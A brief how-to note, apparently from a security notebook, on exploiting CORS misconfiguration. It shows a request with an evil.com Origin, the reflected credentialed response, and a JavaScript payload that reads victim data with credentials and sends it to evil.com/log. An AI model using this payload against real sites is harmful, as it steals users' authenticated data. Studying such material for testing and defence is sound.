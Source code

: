 # misconfig

1.Burp: [https://portswigger.net/web-security/cors](https://portswigger.net/web-security/cors)

2. [https://medium.com/@amangupta566/cors-misconfiguration-leads-to-steal-sensitive-information-disclosure-fdf050b68b66](https://medium.com/@amangupta566/cors-misconfiguration-leads-to-steal-sensitive-information-disclosure-fdf050b68b66)



## How to:

#### 1. set the origin:

```text
GET /sensitiveData HTTP/1.1
Host: vulnerable.com
Origin: 
https://evil.com

```





#### 2. find the response that can be controlled:

```text
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
```

The `Access-Control-Allow-Origin` be written by Origin and \`Access-Control-Allow-Credentials\` is true.



#### 3. use the js to interact with the service:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//https://evil.com/log?key='+this.responseText;
};
```

The sensitive response information will be sent to the evil.com..

